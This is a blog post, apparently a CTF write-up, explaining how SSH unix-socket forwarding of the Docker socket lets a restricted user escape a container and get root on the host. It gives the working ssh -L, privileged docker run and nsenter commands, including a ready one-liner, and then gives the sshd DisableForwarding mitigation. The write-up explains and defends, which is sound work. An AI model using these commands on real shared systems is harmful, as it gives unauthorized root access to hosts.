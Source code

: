 ```yaml
---
title: "16 SSH Forwarding Quirks"
date: 2020-03-23T10:19:06Z
author: "Viktor Barzin"
description: "Abusing SSH forwarding features and common docker config allows for privilege escalation and secure shell escape onto the docker host."
sitemap:
  priority: 0.3
tags:
  [
    "ssh",
    "docker",
    "privilege escalation",
    "shell escape",
    "unix domain socket",
    "forwarding",
    "ctf",
    "attack-defense",
    "nsenter",
    "disable forwarding",
    "docker privilege escalation",
  ]
firstImgUrl: "https://viktorbarzin.me/images/16-ssh-forwarding-quirks-0-18-47-23-resized.png"
draft: false
---
```


# Introduction

[SSH](https://www.ssh.com/ssh) is a ubiquitous protocol for managing remote machines securely.

Most of the time one would need just shell access to a remote machine to run commands, however, SSH allows for so much more.
One of the interesting features is **SSH forwarding** - you can forward ports, unix sockets, X11 sessions and other interesting stuff.

All of this is fine until you start sharing the ssh server host with other people.
Recently, me and a few other people were organizing an attack-defense style Capture the Flag (CTF) event for my university's cyber security society ([SUCSS](https://www.sucss.org/)).
This blog post will be about a neat trick you can do with SSH forwarding to **escalate privileges** and **escape a restricted shell** environment and gain **root access on the host**.

# Overview of the environment

The environment comprised a single Ubuntu virtual machine (VM) which hosts the entire CTF.
Each team has a user to SSH into this VM and upon successful login is dropped into a docker container.
All of these containers are in the same docker network and can attack each other.

Essentially, this is the environment:

<div style="max-width: 500px; max-height:500px">

![](/images/16-ssh-forwarding-quirks-0-18-47-23.png)

</div>

<br>
This is how the user shell looks like:

```bash
#!/bin/bash

name="$USER"_group
docker run -d -it --rm --pids-limit=50 --cpus="0.5" -m="500m" --device-write-bps /dev/sda:1mb --name $name sucss-group-ctf sudo -u $USER /bin/bash 2>/dev/null

docker exec -it -u $USER $name /bin/bash
```

This shell runs a container for the team and drops them into a shell on the container.

# Abusing SSH forwarding

Now, the above shell looks secure enough and does not let the user at any point to run any commands on the host.

Secure, right?

Well, not quite.

As I mentioned earlier, SSH is quite a powerful protocol and can forward a lot of stuff including unix domain sockets.
The docker CLI, by default, uses [a unix domain socket](https://stackoverflow.com/questions/35110146/can-anyone-explain-docker-sock#answer-35110344) to communicate with the docker API.
This essentially means that all the `docker ps`, `docker run`, `docker network ls` etc. commands **all** go through that socket.

I reckon you already see the arising issue there - you could SSH into the host and forward the docker socket **from the host** locally and then escape on the host.

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

(Forwarding unix sockets requires SSH >=6.7 which you should be running)

Now if we run `docker` using the forwarded socket we will communicate with the remote docker daemon:

```bash
$ docker -H unix://docker.sock ps
```

# Popping a shell

Using docker access to get a shell on the host is now trivial.
We need to spawn a privileged container and mount the host rootfs inside.
We can do so using:

```bash
docker run --privileged --pid=host -it alpine sh
```

- --privileged : grants additional permissions to the container, it allows the container to gain access to and mount the devices of the host (/dev)
- --pid=host : allows the containers to use the processus tree of the Docker host (the VM in which the Docker daemon is running)

The easiest way to spawn a shell using the host rootfs is using the `nsenter` command:

```bash
$ nsenter -t 1 -m -u -n -i sh
```

From the help page:

```
BusyBox v1.31.1 () multi-call binary.

Usage: nsenter [OPTIONS]PROG [ARGS]]

         -t PID          Target process to get namespaces from
         -m[FILE]        Enter mount namespace
         -u[FILE]        Enter UTS namespace (hostname etc)
         -i[FILE]        Enter System V IPC namespace
         -n[FILE]        Enter network namespace
         -p[FILE]        Enter pid namespace
         -U[FILE]        Enter user namespace
         -S UID          Set uid in entered namespace
         -G GID          Set gid in entered namespace
         --preserve-credentials  Don't touch uids or gids
         -r[DIR]         Set root directory
         -w[DIR]         Set working directory
         -F              Don't fork before exec'ing PROG
```

# tl;dr

To get a shell abusing the SSH forwarding capabilities and the docker daemon do:

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

in one shell and in another

```bash
$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
```

Voila!

# Mitigation

This is possible because of 2 things:

- Default sshd config allows forwarding
- Adding the user to the `docker` group

The second is often done to let people run `$ docker ...` as opposed to `$ sudo docker ...`.
For this environment it's needed because each user needs to start a container and drop the user inside.
The process needs to be automatic and unattended so `sudo` must be passwordless but that's a hassle to setup per user.
Thus adding the user to the `docker` group is the easiest thing to do.

You can think of the above 2 conditions as prerequisites for this vulnerability to exist.
If you fix any of them you would mitigate this issue.

The change you need to make in `/etc/ssh/sshd_config` is adding

```xorg.conf
DisableForwarding yes
```

This disables all forwarding features and I strongly recommend having it in there as a secure default and enable it on per-user basis when needed.

Once you have this in your ssh config, trying the same trick again yields these errors:

In the SSH shell:

```bash
user@host:~$ channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
```

And when you run

```bash
╰─$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
docker: error during connect: Post http://docker.sock/v1.40/containers/create: read unix @->/home/viktor/docker.sock: read: connection reset by peer.
See 'docker run --help'.
```

# Conclusion

This little neat trick exploits the powers of SSH forwarding as well as the privileges docker gives a user.
**Effectively if a user can spawn docker containers, they have root on that machine** which is scary when you think about it.

Shout out to [Tim Stallard](https://timstallard.me.uk/) for pointing this trick.
Here are a couple of articles on [how to forward the docker socket over ssh](https://medium.com/@dperny/forwarding-the-docker-socket-over-ssh-e6567cfab160) and [how to get a shell on the host from a container](https://medium.com/lucjuggery/a-container-to-access-the-shell-of-the-host-2c7c227c64e9).

Thanks for reading!
